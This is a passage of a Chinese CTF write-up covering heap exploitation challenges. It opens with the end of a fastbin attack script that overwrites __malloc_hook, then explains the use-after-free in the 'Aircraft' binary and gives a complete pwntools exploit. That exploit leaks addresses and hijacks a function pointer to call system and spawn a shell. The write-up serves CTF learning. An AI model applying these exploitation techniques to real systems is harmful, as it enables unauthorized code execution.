system_addr = libc_base + libc.symbols['system']

add(0x60, p64(0)*3 + p64(0x21))
expand(2, 0x15, 'b'* 0x12 + '\x51\x00')
add(1, '')
delete(3)

"""
0x55847781a050: 0x6262626262626262  0x51
0x55847781a060: 0x0 0x60
0x55847781a070: 0x55847781a100  0x55847781a010
0x55847781a080: 0x55847781a090  0x71
0x55847781a090: 0x0 0x0
0x55847781a0a0: 0x0 0x21
"""

fake_fastbin = libc_base + libc.symbols['__malloc_hook'] - 0x20 + 5 - 8
payload = 'a'*0x28 + p64(0x71) + p64(fake_fastbin)
add(0x40, payload)

add(0x60, "/bin/sh\x00")
add(0x60, 'a'*11 + p64(system_addr)*2)
#gdb.attach(p, open('debug'))

p.recvuntil('choice:')
p.sendline('5')
p.recvuntil('expand?')
p.sendline(str(5))

p.interactive()
```


## Aircraft

程序入口

```python
Welcome to aiRline!
what do you want to do?
1. Buy a new plane
2. Build a new airport
3. Enter a airport
4. Select a plane
5. Exit
Your choice: 
```

这个题是一个UAF漏洞的题，漏洞出现在sell_airport功能中

```c
int __fastcall sell_airport(_QWORD *airplane)
{
  ...
  free(airplane);   //airplane指向的是airport结构体
  return puts("Success!");
}

int __fastcall do_with_airport(_QWORD *a1)
{
  ...
  return sell_airport(a1);
}
```

在释放后，并没有将对应的指针置空，从而导致了UAF漏洞。通过UAF漏洞，可以泄露地址，也可以控制堆块的分配顺序。这个时候，还需要关注另外一段代码

```c
int __fastcall sell_plane(Airplane *a1)
{
  delete_from_link(a1);
  return ((int (__fastcall *)(Airplane *))a1->func)(a1);
}
```

在airplane结构体中，有一个函数指针默认指向了free函数，这个函数会在sell_plane功能中调用

```c
struct Airplane
{
  char name[32];
  char *company;
  char *airport;
  Airplane *prev;
  Airplane *next;
  _QWORD *func;
};
```

那么我们在可以控制堆块分配后要做的就是控制这个函数指针，使其指向system函数，并将对应的airplane的名称修改为/bin/sh，那么在sell_plane时就可以get shell，完整的脚本如下

```python
#!/usr/bin/env python
# coding=utf-8

from pwn import *


slog = 1
local = 0

if slog: context.log_level = 'debug'

if local:
    p = process("./aircraft")
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
else:
    p = remote("aircraft.2017.teamrois.cn", 9731)
    libc = ELF("./libc.so.6")

def buy(airtype, name):
    p.recvuntil('choice')
    p.sendline('1')
    p.recvuntil('choice')
    p.sendline(str(airtype))
    p.recvuntil('name:')
    p.sendline(name)

def build(length, name):
    p.recvuntil('choice')
    p.sendline('2')
    p.recvuntil('name?')
    p.sendline(str(length))
    p.recvuntil('name:')
    p.sendline(name)

def enter(index, option):
    p.recvuntil('choice')
    p.sendline('3')
    p.recvuntil('choose?')
    p.sendline(str(index))
    p.recvuntil('choice:')
    p.sendline(str(option))
    if option == 1:
        p.recvuntil('Exit')
        p.sendline('3')

def select(name, option, airport = -1, is_exit = True):
    p.recvuntil('choice')
    p.sendline('4')
    p.recvuntil('choose?')
    p.sendline(name)
    p.recvuntil('Exit')
    p.sendline(str(option))
    if option == 1:
        p.recvuntil('fly?')
        assert airport != -1
        p.sendline(str(airport))
        if is_exit:
            p.recvuntil('choice:')
            p.sendline('3')

list_airport = 1
sell_airport = 2

fly_airplane = 1
sell_airplane = 2

for i in range(5):
    buy(1, str(i))

build(20, "a"*0x10)
build(20, "b"*0x10)

enter(0, sell_airport)
enter(1, sell_airport)

select('0', fly_airplane, 1, is_exit = False)
p.recvuntil('0 to ')
code_base = u64(p.recvn(6) + '\x00\x00') - 0xb7d
print("code_base is " + hex(code_base))

p.recvuntil('choice:')
p.sendline('3')

build(0x80, p64(code_base + 0x202080))
select('1', fly_airplane, 1, is_exit = False)

p.recvuntil('1 to ')
heap_base = u64(p.recvn(6) + '\x00\x00') - 0x1a0
print("heap_base is " + hex(heap_base))

p.recvuntil('choice:')
p.sendline('3')

build(20, "a"*0x10)
build(20, "b"*0x10)
enter(3, sell_airport)
enter(4, sell_airport)

payload = p64(code_base + 0x201f70)
payload += p64(heap_base + 0x10)
payload += p64(heap_base + 0x60)
payload += p64(heap_base + 0x10)
payload = payload.ljust(0x88, '\x00')

build(0x88, payload) 
select('2', fly_airplane, 4, is_exit = False)

p.recvuntil('2 to ')
free_addr = u64(p.recvn(6) + '\x00\x00') 
print("free_addr is " + hex(free_addr))

system_addr = free_addr - libc.symbols['free'] + libc.symbols['system']
print("system addr is " + hex(system_addr))

p.recvuntil('choice:')
p.sendline('3')

build(0x60, '')
enter(4, sell_airport)

build(0x40, 'aaaaaaaaaa')
build(0x40, p64(heap_base + 0xf0))
build(0x40, 'aaaaaaaaaa')
build(0x40, 'aaaaaaaaaa')
build(0x48, "/bin/sh".ljust(0x20, '\x00') + p64(heap_base + 0x10)*4 + p64(system_addr))

#gdb.attach(p, open('debug'))
select('/bin/sh', 2)
p.interactive()
```

